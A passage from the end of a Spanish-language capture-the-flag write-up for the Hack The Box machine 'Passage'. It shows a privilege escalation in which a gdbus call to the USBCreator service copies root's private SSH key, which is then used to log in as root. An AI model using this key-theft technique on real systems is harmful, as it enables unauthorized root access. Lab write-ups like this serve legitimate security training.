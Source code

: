 Perfecto, pues copiemos el `id_rsa` del usuario `root` para posteriormente obtener una Shell ingresando con su llave privada, lo mismo que hicimos con `nadav`.

```bash
nadav@passage:/dev/shm$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /dev/shm/paentrar true
()
```

![206bash_nadav_idRSAroot](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206bash_nadav_idRSAroot.png)

La guardamos en `keyroot` y entramos :)

```bash
–» ssh -i keyroot root@10.10.10.206
Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
root@passage:~# id    
uid=0(root) gid=0(root) groups=0(root)
root@passage:~# 
```

Perfecto, perfecto... Solo nos queda ver las flags :)

![206flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206flags.png)

...

El rabbit hole que me comí fue interesante (por lo menos recordé como hacer `Remote Port Forwarding`). Pensé de más en la escalada de privilegios, pero estuvo bien. Me gusto mucho el tema de las llaves `SSH`. Y nada... Nos encontraremos en otro writeup y a seguir rompiendo todo, muchas gracias a [@ChefByzen](https://www.hackthebox.eu/profile/140851) por la máquina y a ustedes por leer :)